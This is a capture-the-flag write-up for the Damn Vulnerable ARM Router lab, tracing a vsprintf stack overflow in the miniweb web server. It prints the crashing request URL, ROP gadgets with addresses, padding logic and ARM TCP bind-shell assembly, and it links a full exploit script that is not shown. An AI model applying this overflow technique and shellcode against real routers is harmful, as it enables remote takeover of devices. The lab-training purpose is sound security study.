

# DVAR - Damn Vulnerable Arm Router

## Intro

The [DVAR](http://blog.exploitlab.net/2018/01/dvar-damn-vulnerable-arm-router.html) challenge is a simple ARM VM that has a vulnerable web service running. The goal is to exploit the buffer overflow that is somewhere in that service.

## Tools and Packages

Tools I use in this challenge are:

* [radare2](https://rada.re/r/)
* gdb-multiarch
* [GEF](http://gef.readthedocs.io/)
* [Burp](https://portswigger.net/burp)
* VMware Player
* Ubuntu packages: gcc-arm-linux-androideabi, gcc-arm-linux-gnueabi
* ROP Gadget searching with [xrop](https://github.com/acama/xrop), [ropper](https://github.com/sashs/Ropper), [ROPgadget](https://github.com/JonathanSalwan/ROPgadget)
* [pwntools](http://docs.pwntools.com)
* nmap

## Bug Assessment

### Initial Set Up

I configured my `/etc/hosts` to have `dvar` hostname for the IP of the router's VM, so from now on the vulnerable router is accessed by domain `dvar` (`http://dvar/`).

The debug environment and flow include:

1. Run `gdbserver` on `dvar`: `gdbserver 0.0.0.0:8888 --attach $(pidof miniweb)`
1. Remote debug with `gdb-multiarch`: `gdb-multiarch -x ./miniweb.gef.gdb`

[miniweb.gef.gdb](miniweb.gef.gdb) is a simple GDB script that connects to target, sets breakpoints and continues execution setting everything ready for the coming payload.

### Bug Discovery

To trigger the bug you just have to submit the settings on the main `http://dvar` at button `Save Settings`. This sends a request to `http://dvar/basic.html?...` and the router web server hangs and does not complete the communication.

### Tracing and Further Assessment

By inspecting the binary (`miniweb` which I copied from the router) with Radare2 the following program flow is revealed:

1. The application forks `serveconnection()` for each connection
1. Data is `recv`ed until `\n\r\n\r` is encountered
1. The GET request is then `urldecode`d
1. `Log()` is called to fill an entry into a log file
1. A call to `vsprintf` messes up the stack - this is the vulnerable point
1. `SIGSEGV` is triggered at the `return` of `Log()`

The bug is triggered by:
    
    http://dvar/basic.html?aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaeeeebbbb

where `pc`(program counter), `lr`(link register) and `r11`(`fp` - frame pointer) registers contain user supplied data:

    ...
    $r11  : 0x65656565 ("eeee"?)
    $r12  : 0x00000024
    $sp   : 0xbeffbba8  →  0x00000000
    $lr   : 0x62626262 ("bbbb"?)
    $pc   : 0x62626262 ("bbbb"?)
    ...

By trying several inputs and checking security settings it is clear that:

* non-printable characters can be supplied - `urldecode` helps for that
* `\x00` characters cut the string and payload after that can't be read
* ASLR of the stack is enabled
* libraries have static base addresses
* stack is executable

Some difficulties I had:

* The usage of `gdb-multiarch` over simple `gdb` costs me several hours of headache.
* I had to give up `pwndbg` in favor of `GEF`

## Exploitation

The strategy is:

* Find ROP gadgets that change execution flow to the stack at controlled point:
    * load data from stack into registers
    * load `sp` into general purpose register
    * branch to stack address through general purpose register
* Run TCP bind shellcode
* Connect to shell

### ROP Chaining

I succeeded to find suitable gadgets in `libgcc_s.so.1` loaded at `0x40078000`. The reason gadgets from libraries are used and not from `miniweb` executable is because of NULL bytes - `miniweb` is loaded at lower address space and 4 byte address has two NULL bytes.

The `xrop` tool found good gadgets:

    0x4110                E8BD800F                  pop {r0, r1, r2, r3, pc}

    0x8674                E1A0200D                  mov r2, sp
    0x8678                E12FFF33                  blx r3

    0x2c48                4710                      bx   r2

One tricky moment was realizing that the length of my request IP matters and I cannot just stick a constant in [e.py](e.py):

    pad1 = cyclic(329)

The stack layout changes if the IP string length is different so I took this in account:
    
    pad1 = cyclic(341 - len(my_ip))

### Shellcode

I used the shellcode from [Azeria's TCP Bind Shell](https://azeria-labs.com/tcp-bind-shell-in-assembly-arm-32-bit/). It had a bug and I had to fix it - the `execve` needed argument list with at least 1 item (the name of the started program). The problematic code was:

    adr r0, shellcode   // r0 = location of "/bin/shX"
    eor r1, r1, r1      // clear register r1. R1 = 0
    eor r2, r2, r2      // clear register r2. r2 = 0
    strb r2, [r0, #7]   // store null-byte for AF_INET
    mov r7, #11         // execve syscall number
    svc #1
    nop

which turned into:

    adr r0, shellcode   // r0 = location of "/bin/shX"
    eor r1, r1, r1      // clear register r1. R1 = 0
    push {r1}
    push {r0}
    mov r1, sp          // r1 pointing to argument list
    eor r2, r2, r2      // clear register r2. r2 = 0
    push {r2}
    strb r2, [r0, #7]   // store null-byte for AF_INET
    mov r7, #11         // execve syscall number
    svc #1
    nop

I had difficulties here with `as` making it agree with that code and not messing up the pseudo instruction `adr`.

## Scripts and Files

* [e.py](e.py) - full working exploit
* [miniweb.gef.gdb](miniweb.gef.gdb) - GDB script making faster feedback loop while testing
* [notes.md](notes.md) -  working notes

## Exploit Execution

## Resources

* Practical Reverse Engineering - ch 2
* [Azeria's TCP Bind Shell](https://azeria-labs.com/tcp-bind-shell-in-assembly-arm-32-bit/)
* [Sindoni's ARM Exploitation Tutorials (Ep. 2)](https://quequero.org/2017/09/arm-exploitation-iot-episode-2/)
